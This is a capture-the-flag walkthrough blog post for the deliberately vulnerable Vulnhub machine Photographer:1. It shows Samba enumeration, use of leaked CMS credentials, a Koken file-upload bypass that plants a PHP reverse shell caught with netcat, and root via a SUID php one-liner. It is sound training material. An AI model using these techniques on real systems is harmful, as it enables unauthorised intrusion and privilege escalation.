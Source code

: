 ```yaml
---
date: 2020-09-01 00:04:11
layout: post
title: "Photographer 1 Vulnhub Walkthrough"
subtitle:
description: Photographer:1 is a boot2root machine from Vulnhub. This VM is rated easy and good for beginners.
image: /assets/img/uploads/photographer/photographer.webp
optimized_image: /assets/img/uploads/photographer/photographer-optimized.webp
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: vulnhub, photographer ctf, photographer vulnhub walkthrough, photographer 1 vulnhub, photographer vulnhub, photographer walkthrough, photographer writeup, infosecarticles, infosec articles
---
```


Today I will be sharing a walkthrough of Photographer:1 which is a boot2root machine available on Vulnhub. There are two flags and our goal is to read all of them. This includes enumerating samba to find some login information and then exploiting a CVE to upload a php shell and then exploiting a SUID to gain a root shell. I've added the IP to my hosts file, so Let's Begin!

```r
┌──(madhav㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.32    photographer.local
```

## Initial Enumeration

I started the enumeration by running a port scan using nmap to look for open ports and default scripts. 

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nmap -sC -sV -oA nmap/initial photographer.local
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for photographer.local (192.168.1.32)
Host is up (0.00034s latency).Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  ssl/http-alt Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
Service Info: Host: PHOTOGRAPHER

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2020-08-27T06:27:22-04:00 
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-27T10:27:22
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.57 seconds
```
We see Samba smbd running on port 139 and 445 and Apache web servers running on port 80 and 8000. I decided to enumerate port 139 and 445 first. First I used <b>smbclient -L</b> to list all the shares available on the server. Just leave the password field blank and press enter.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient -L photographer.local 
Enter WORKGROUP\madhav's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Next I accessed the <b>sambashare</b> using the smbclient. Inside the share I found two files named <i>mailsent.txt</i> and 
<i>wordpress.bkp.zip.</i> I downloaded both the files using the <b>get</b> command.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient '\\photographer.local\sambashare'
Enter WORKGROUP\madhav's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 07:00:07 2020
  ..                                  D        0  Tue Jul 21 15:14:25 2020
  mailsent.txt                        N      503  Tue Jul 21 06:59:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 06:52:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
smb: \> get mailsent.txt 
getting file \mailsent.txt of size 503 as mailsent.txt (61.4 KiloBytes/sec) (average 61.4 KiloBytes/sec)
smb: \> get wordpress.bkp.zip 
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (160044.7 KiloBytes/sec) (average 146282.9 KiloBytes/sec)
smb: \> exit
```

The <b>mailsent.txt</b> appears to be a copy of a mail. We can save the emails and names used in the email which may be useful in future.

<center><br>
<img src="/assets/img/uploads/photographer/mailsent.png">
</center>

Also, I tried enumerating the <b>wordpress.bkp.zip.</b> but did not find anything useful there. I suppose that was just a rabbit hole. Next I started enumeration on port 80.

<center><br>
<img src="/assets/img/uploads/photographer/port80.png">
</center>

The port 80 seems to run a beautiful website. Unfortunately, I didn't find anything useful here. 

## User Shell

<center><br>
<img src="/assets/img/uploads/photographer/port8000.png">
</center>

Next I went to port 8000 for further enumeration. This is the Daisa's website mentioned in the <i>mailsent.txt</i> and we can see that this is built using Koken CMS. The first thing I did after reading was to check on Google if some CVE is available for this CMS. I found an <a href="https://www.exploit-db.com/exploits/48706">exploit</a> which is published by the author of this machine itself :)

<center><br>
<img src="/assets/img/uploads/photographer/koken.png">
</center>

To run this exploit, we need to login into the CMS first. The credentials were already with us from the <i>mailsent.txt.</i> I logged in to the Koken CMS with username <i>daisa@photographer.com</i> and password <i>babygirl.</i>

<center><br>
<img src="/assets/img/uploads/photographer/koken-cms.png">
</center>

Now we will upload a php reverse shell and follow the steps as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a> I will be using the php reverse shell by <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a> I opened the upload dialog box by clicking on the <i>Import Content</i> button.

<center><br>
<img src="/assets/img/uploads/photographer/upload.png">
</center>

After selecting the reverse shell, I opened Burpsuite and configured my browser to connect to the Burp proxy. I turned the Intercept on and clicked on the import button. Then, I changed the name from <b>shell.php.jpg</b> to <b>shell.php</b> in the request as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a>

<center><br>
<img src="/assets/img/uploads/photographer/burp.png">
</center>

Once that's complete, you will find a download button on the right, just right click there and choose "Open in New Tab" option. 

<center><br>
<img src="/assets/img/uploads/photographer/download.png">
</center>

We got our shell and now we can read our first flag :)

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nc -lvnp 9001     
listening on [any] 9001 ...
connect to [192.168.1.4] from (UNKNOWN) [192.168.1.32] 39398
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:23:29 up 12 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@photographer:/$ cd /home/daisa/
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```
## Privilege Escalation

The privilege escalation for this machine was not that difficult. I started with searching for all the SUID's available.

```r
www-data@photographer:/$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ntfs-3g
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```

We see a php7.2 SUID available, I searched for this on <a gref="https://gtfobins.github.io/gtfobins/php/">GTFO Bins</a> and found the way to escalate our privileges by using the following command.  

```r
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```
After executing, we can read our final flag!

<center><br>
<img src="/assets/img/uploads/photographer/root.png">
</center>

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/laurenmayhewlm">Lauren Mayhew.</a>
